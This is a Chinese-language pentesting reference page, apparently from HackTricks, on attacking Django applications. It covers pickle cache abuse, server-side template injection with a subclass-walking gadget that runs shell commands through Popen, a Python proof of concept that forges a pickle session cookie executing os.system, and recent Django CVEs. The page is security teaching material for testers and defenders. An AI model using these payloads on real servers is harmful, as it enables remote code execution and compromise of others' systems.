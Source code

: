 # Django

{{#include ../../banners/hacktricks-training.md}}

## 缓存操控到 RCE
Django 的默认缓存存储方法是 [Python pickles](https://docs.python.org/3/library/pickle.html)，如果 [不受信任的输入被反序列化](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)，可能导致 RCE。**如果攻击者能够获得对缓存的写入访问权限，他们可以将此漏洞升级为底层服务器上的 RCE**。

Django 缓存存储在四个地方之一：[Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12)、[内存](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16)、[文件](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) 或 [数据库](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)。存储在 Redis 服务器或数据库中的缓存是最可能的攻击向量（Redis 注入和 SQL 注入），但攻击者也可能利用基于文件的缓存将任意写入转化为 RCE。维护者已将此标记为非问题。需要注意的是，缓存文件夹、SQL 表名和 Redis 服务器的详细信息将根据实现而有所不同。

此 HackerOne 报告提供了一个很好的、可重现的利用 Django 缓存存储在 SQLite 数据库中的示例：https://hackerone.com/reports/1415436

---

## 服务器端模板注入 (SSTI)
Django 模板语言 (DTL) 是 **图灵完备** 的。如果用户提供的数据被渲染为 *模板字符串*（例如通过调用 `Template(user_input).render()` 或当 `|safe`/`format_html()` 移除自动转义时），攻击者可能会实现完整的 SSTI → RCE。

### 检测
1. 查找对 `Template()` / `Engine.from_string()` / `render_to_string()` 的动态调用，这些调用包含 *任何* 未经过滤的请求数据。
2. 发送基于时间或算术的有效负载：
```django
{{7*7}}
```
如果渲染的输出包含 `49`，则输入被模板引擎编译。

### 原语到 RCE
Django 阻止对 `__import__` 的直接访问，但 Python 对象图是可达的：
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
找到 `subprocess.Popen` 的索引（约400-500，具体取决于Python构建）并执行任意命令：
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
一个更安全的通用小工具是迭代直到 `cls.__name__ == 'Popen'`。

同样的小工具适用于 **Debug Toolbar** 或 **Django-CMS** 模板渲染功能，这些功能错误处理用户输入。

---

## 基于 Pickle 的会话 Cookie RCE
如果设置 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` 被启用（或自定义反序列化 pickle 的序列化器），Django *在* 调用任何视图代码 **之前** 解密并反序列化会话 Cookie。因此，拥有有效的签名密钥（默认情况下是项目的 `SECRET_KEY`）足以实现立即的远程代码执行。

### 利用要求
* 服务器使用 `PickleSerializer`。
* 攻击者知道/可以猜测 `settings.SECRET_KEY`（通过 GitHub、`.env`、错误页面等泄露）。

### 概念验证
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
发送结果 cookie，并且有效负载以 WSGI worker 的权限运行。

**缓解措施**：保持默认的 `JSONSerializer`，轮换 `SECRET_KEY`，并配置 `SESSION_COOKIE_HTTPONLY`。

---

## 最近（2023-2025）高影响力 Django CVE 渗透测试人员应检查
* **CVE-2025-48432** – *通过未转义的 `request.path` 进行日志注入*（修复于 2025 年 6 月 4 日）。允许攻击者将换行符/ANSI 代码注入日志文件，并污染下游日志分析。补丁级别 ≥ 4.2.22 / 5.1.10 / 5.2.2。
* **CVE-2024-42005** – *在 `JSONField` 上的 `QuerySet.values()/values_list()` 中的严重 SQL 注入*（CVSS 9.8）。构造 JSON 键以突破引号并执行任意 SQL。修复于 4.2.15 / 5.0.8。

始终通过 `X-Frame-Options` 错误页面或 `/static/admin/css/base.css` 哈希指纹识别确切的框架版本，并在适用时测试上述内容。

---

## 参考
* Django 安全发布 – "Django 5.2.2, 5.1.10, 4.2.22 解决 CVE-2025-48432" – 2025 年 6 月 4 日。
* OP-Innovate: "Django 发布安全更新以解决 SQL 注入缺陷 CVE-2024-42005" – 2024 年 8 月 11 日。

{{#include ../../banners/hacktricks-training.md}}

